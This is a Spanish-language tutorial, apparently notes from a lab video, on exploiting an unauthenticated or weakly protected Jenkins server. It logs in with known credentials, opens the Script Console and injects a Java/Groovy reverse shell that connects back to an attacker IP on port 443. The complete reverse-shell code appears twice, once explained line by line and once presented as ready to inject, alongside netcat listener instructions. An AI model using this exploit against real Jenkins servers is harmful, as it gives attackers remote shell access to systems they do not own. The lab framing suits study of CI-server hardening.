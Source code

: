 
### 1. Contexto General

- **Escenario:**  
    Se cuenta con un servidor Jenkins sin protección de credenciales (sin usuario y contraseña o con credenciales conocidas). Esto permite que, desde un navegador, se pueda acceder al panel de administración de Jenkins.
    
- **Objetivo:**  
    Aprovechar el panel de administración (especialmente la _script console_) para ejecutar código arbitrario. En este caso, se inyecta un fragmento de código Java que, al ejecutarse, crea una conexión inversa (reverse shell) hacia la máquina atacante.
    

---

### 2. Proceso Manual Explicado

- **Acceso a Jenkins:**
    
    1. Se obtiene la IP de la máquina víctima, por ejemplo mediante un script de despliegue (autodeploy.sh) de una máquina preconfigurada (por ejemplo, StrongJenkins).
        
    2. Se accede mediante un navegador a la IP con el puerto 8080, que es donde Jenkins se encuentra corriendo.
        
- **Autenticación:**  
    Se utiliza el usuario y contraseña conocidos (en el ejemplo, `admin` y `rockyou`) para iniciar sesión en Jenkins.
    
    > Un truco mostrado en el video es cambiar el atributo del campo de contraseña (de `type=password` a `type=text`) para visualizar la contraseña en el navegador.
    
- **Ubicación de la Consola de Scripts:**
    
    1. Una vez autenticado, se entra en el apartado “Manage Jenkins” y se desplaza hasta la parte inferior donde se encuentra la “Script Console”.
        
    2. En esta consola es posible ejecutar código Java (o Groovy) de forma arbitraria en el servidor, lo que abre la puerta a la explotación.
        
- **Preparación del Código Exploit:**  
    Se utiliza un fragmento de código (en Java) que permite lanzar una reverse shell. La idea es que al ejecutar este código, se establezca una conexión desde la máquina víctima (donde corre Jenkins) hacia la máquina atacante.
    
- **Reverse Shell:**  
    El código de exploit está diseñado para conectarse a la IP de la máquina atacante en un puerto específico (por ejemplo, 443 o 444). En la máquina atacante se debe tener un listener activo (por ejemplo, utilizando `netcat`) que espere la conexión entrante y permita interactuar con la shell.
    

---

### 3. Análisis del Código Paso a Paso

El siguiente código es la pieza central del exploit:

```java
String host="192.168.1.101";
int port=443;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)
        so.write(pi.read());
    while(pe.available()>0)
        so.write(pe.read());
    while(si.available()>0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e){}
};
p.destroy();
s.close();
```

**Explicación detallada:**

1. **Definición de Variables Iniciales:**
    
    - `String host="192.168.1.101";`  
        Se define la IP de la máquina atacante, es decir, a donde se conectará la reverse shell.
        
    - `int port=443;`  
        Se especifica el puerto en el que el atacante estará escuchando la conexión entrante.
        
    - `String cmd="bash";`  
        Se define el comando que se va a ejecutar en la máquina víctima. En este caso, se lanza el intérprete de comandos Bash.
        
2. **Inicio del Proceso (Shell):**
    
    - `Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();`  
        Se inicia un nuevo proceso que ejecuta `bash`. La redirección de error permite que la salida de error se combine con la salida estándar.
        
3. **Establecimiento de la Conexión con el Atacante:**
    
    - `Socket s=new Socket(host,port);`  
        Se crea un socket que establece conexión con la máquina atacante en la IP y puerto especificados.
        
4. **Obtención de los Flujos de Datos:**
    
    - `InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();`  
        Se obtienen los flujos de entrada de la salida estándar y de error del proceso `bash`, y el flujo de entrada del socket.
        
    - `OutputStream po=p.getOutputStream(), so=s.getOutputStream();`  
        Se obtienen los flujos de salida hacia el proceso `bash` y hacia el socket.
        
5. **Bucle de Redirección de Datos:**
    
    - Dentro del bucle `while(!s.isClosed()){ ... }`, se realizan las siguientes acciones de forma continua:
        
        - **Lectura y envío de la salida del proceso al socket:**  
            Se leen los bytes disponibles en la salida estándar (`pi`) y en la salida de error (`pe`) del proceso y se escriben en el flujo de salida del socket (`so`).
            
        - **Lectura y envío de la entrada del socket al proceso:**  
            Se leen los bytes del flujo de entrada del socket (`si`) y se envían al proceso `bash` mediante el flujo de salida (`po`).
            
        - Se realizan los `flush()` de ambos flujos para asegurar que los datos se envíen inmediatamente.
            
        - Se realiza una breve pausa (`Thread.sleep(50);`) para no saturar la CPU.
            
        - Se intenta obtener el valor de salida del proceso (`p.exitValue()`). Si el proceso ha terminado, se rompe el bucle; de lo contrario, se captura la excepción y se continúa.
            
6. **Limpieza Final:**
    
    - `p.destroy();`  
        Se termina el proceso `bash` una vez finalizado el bucle.
        
    - `s.close();`  
        Se cierra el socket, terminando la conexión con la máquina atacante.
        

---

### 4. Código Completo

Aquí tienes el código completo, listo para ser inyectado en la _Script Console_ de Jenkins:

```java
String host="192.168.1.101";
int port=443;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)
        so.write(pi.read());
    while(pe.available()>0)
        so.write(pe.read());
    while(si.available()>0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e){}
};
p.destroy();
s.close();
```

---

### 5. Resumen del Proceso

- **Preparación:** Se identifica una máquina Jenkins vulnerable y se accede a su panel de administración.
    
- **Explotación Manual:** Se utiliza la _Script Console_ para ejecutar código Java que crea una conexión inversa.
    
- **Automatización con Python:** La idea es automatizar estos pasos mediante un script en Python que primero realice el login en Jenkins y luego ejecute el exploit, pero en este ejemplo nos centramos en entender y replicar el fragmento Java que se ejecuta para obtener la reverse shell.
    
- **Resultado:** Al ejecutar el código, la máquina víctima se conecta de forma inversa a la máquina atacante, proporcionando una shell interactiva que permite la ejecución de comandos de forma remota.
    

